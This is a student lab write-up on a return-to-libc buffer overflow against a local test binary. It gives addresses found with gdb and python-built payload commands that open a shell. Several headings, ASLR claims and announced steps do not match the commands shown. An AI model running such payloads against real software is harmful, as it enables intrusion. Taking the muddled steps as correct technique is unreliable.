 # Lab5_2 - Buffer overflow attack(turn on ASLR, turn on NX)

## Overview
* Previous lab, we use '/bin/sh' string in a environment in linux system. 
* This time, we're going to make '/bin/sh' string into a memory using strcpy and jump to the text!!!
* I think this is really cool and I truly admire who though these kind of things.

## PAYLOAD
+ Payload = PADDING + build-string-payload + &system() + &exit_path + &cmd_string
+ Note that, this time, we're building our own string!

## Before get started
+ Make sure that the ASLR is turned off.
```
[02/23/22]seed@VM:Byeongchan$ cat /proc/sys/kernel/randomize_va_space 
2
[02/23/22]seed@VM:Byeongchan$

```
+ Make sure not using stack executable when compiling c file
```
gcc -g -static -fno-stack-protector ans_check7.c -o ans_check7_static
```

## Steps
+ 1,2,3,4 - Have done on previous lab
5. Find out the address of the strcpy & pop-pop-ret function
6. Choose an address for our string destination
7. Find out where hexacode of strings are.(We're using them to build our own command)
8. Build the command text we're using
9. Make the payload and execute

### Step5 - Find out the address of the strcpy & pop-pop-ret function
+ I found the 54 bytes are needed for the padding using exit function
+ If you're not sure what it does, look back previous practice
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```


### Step6 - Choose an address for our string destination
+ Address of system() : 0xb7da4da0
+ I tried to find the system in the program, but it ended with ‘00’ so I tried to find another one using gdb.
```
[02/23/22]seed@VM:Byeongchan$ objdump -D ans_check7 | grep system
08048420 <system@plt>:
 8048639:	e8 e2 fd ff ff       	call   8048420 <system@plt>
[02/23/22]seed@VM:Byeongchan$
```
+ This time, I used gdb method.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3129) exited normally]
Warning: not running or target is remote
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7da4da0 <__libc_system>
gdb-peda$
```

### Step7 - Find out where hexacode of strings are.(We're using them to build our own command)
+ Address of exit() : 0xb7d989d0
+ This time, I just using gdb method very first.
```
[02/23/22]seed@VM:Byeongchan$ gdb -q ans_check7
Reading symbols from ans_check7...done.
gdb-peda$ run
Starting program: /home/seed/lab5/ans_check7 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/i386-linux-gnu/libthread_db.so.1".
Usage: /home/seed/lab5/ans_check7 <answer>
[Inferior 1 (process 3147) exited normally]
Warning: not running or target is remote
gdb-peda$ p exit
$1 = {<text variable, no debug info>} 0xb7d989d0 <__GI_exit>
```

### Step8 - Build the command text we're using
+ The address of cmd_string: 0xbffff0d3
+ Repeatable note is here
```
[02/23/22]seed@VM:Byeongchan$ gcc find_var.c -o find_var
[02/23/22]seed@VM:Byeongchan$ find_var SHELL
0xbffff0d3
[02/23/22]seed@VM:Byeongchan$ echo $SHELL
/bin/bash
[02/23/22]seed@VM:Byeongchan$
```

### Step9 - Make the payload and execute
+ The payload I made is shown below
+ &system:  0xb7da4da0 <__libc_system>
+ &exit_path: b7d989d0 <__GI_exit>
+ &cmd_string: 0xbffff0d3, cmd_string address
```
$(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xd3\xf0\xff\xbf'")
```
+ However, there is one problem executing the payload with the program
+ The payload I made above failed with ‘/bash’ not found error. And I knew the meaning of it, because find_var program returned the address of ‘SHELL’ text a little bit different. So, I needed to make adjustment a bit. 
+ First, I tried 3 less bytes and I also failed with ‘bin/bash’ not found. 
+ Second, I tried 4 less bytes and I got a new shell.
+ Below is my successful execution command.
```
[02/23/22]seed@VM:Byeongchan$ ./ans_check7 $(python -c "print '\xAA'*54 + '\xa0\x4d\xda\xb7' + '\xd0\x89\xd9\xb7' + '\xcf\xf0\xff\xbf'")
```
![lab5_1](https://raw.githubusercontent.com/kbckbc/washu_sp22_cse523/main/img/lab5_1.png)


